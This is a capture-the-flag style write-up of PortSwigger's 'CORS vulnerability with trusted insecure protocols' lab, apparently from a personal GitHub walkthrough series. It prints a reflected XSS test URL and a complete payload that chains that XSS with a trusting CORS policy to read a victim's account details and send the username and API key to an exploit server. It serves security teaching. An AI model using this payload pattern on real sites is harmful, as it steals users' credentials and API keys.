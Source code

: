 # Write-up: CORS vulnerability with trusted insecure protocols @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab `CORS vulnerability with trusted insecure protocols` is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/cors/lab-breaking-https-attack>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

- Lab application has an insecure CORS configuration and trusts all subdomains regardless of protocol
- Known good credentials `wiener:peter`

### Goals

- Create some JavaScript that
  - retrieves the admin API key
  - uploads it to the exploit server

## Steps

The web application of the lab is a shop website. I log in with the credentials provided and see the API key of `wiener` on the `My account` page.

Looking in the HTML source, I see a JavaScript call to obtain this key:

![HTML_code_to_obtain_key](img/HTML_code_to_obtain_key.png)

This results in this request being made:

![request_to_obtain_key](img/request_to_obtain_key.png)

### Naive attempts

So as a first attempt I try to craft a JavaScript snippet that sends a request to the account details and tries to access the response data:

![javascript_first_attempt](img/javascript_first_attempt.png)

The request is issued as expected and the response contains the desired API key:

![javascript_first_attempt_response](img/javascript_first_attempt_response.png)

However, it does not contain an `Access-Control-Allow-Origin` header. As a result, the browser does not have the permission to allow a script on running from `http://exploit...` to access the data received from `https://...web-security-academy.net`:

![first_attempt_cors_blocked](img/first_attempt_cors_blocked.png)

### Find a way to execute scripts on an allowed domain

The next step is to try to find a way to execute my payload within the allowed domain, i.e. within the shop website. 

For this, I check the shop to find a possible XSS vulnerability. In this lab, with only very few injection points, it is not difficult to find it manually. Burp can help to speed up the process:

![burp_discovers_xss](img/burp_discovers_xss.png)

Verifying it manually in the browser by accessing `https://stock.ac411fa31f815f5cc0894656004f00b2.web-security-academy.net/?productId=1%3Cscript%3Ealert(document.domain);%3C/script%3E&storeId=1` shows the desired popup:

![xss_found](img/xss_found.png)

### Putting it together

Now I have everything I need. I perform a subrequest similar to the [first CORS lab](../CORS_vulnerability_with_basic_origin_reflection/README.md). After a couple of attempts I got the required modifications and URL encodings correct. Specifically:

- My exploit server is not a trusted location. I need to use `document.location` to a trusted domain, in this case `https://stock...`. In this context, I execute my payload via Cross-Site scripting (XSS). As it is a trusted domain the browser allows the script access to the response of `/accountDetails`.
- The URL for `document.location` needs to URL-encode the `<` of the closing script tag. When the browser parses a script, it quits at the first `</script>` found. In other cases this is the required behaviour, but not here. So I need to ensure the parser does not see it. 
- The `+` and `&` in the request to my exploit server need to be URL-encoded, otherwise, it will be treated as arguments of the request to `https://stock...`

The final scripts looks a bit daunting:

![malicious_js](img/malicious_js.png)

```HTML
<script>
	document.location="https://stock.ac411fa31f815f5cc0894656004f00b2.web-security-academy.net/?productId=1<script>var r = new XMLHttpRequest(); r.open('get','https://ac411fa31f815f5cc0894656004f00b2.web-security-academy.net/accountDetails',false); r.withCredentials = true; r.send(); const obj=JSON.parse(r.responseText);r.open('get','https://exploit-ac921f151fca5facc0394693015700d9.web-security-academy.net/?user='%2bobj.username%2b'%26apikey='%2bobj.apikey, false); r.send();%3c/script>&storeId=1"
</script>
```

Testing the exploit shows my API key in the log:

![test_run](img/test_run.png)

Delivering the exploit to the victim results in the required API key

![victim_key](img/victim_key.png)

Submitting the key updates the lab to

![success](img/success.png)
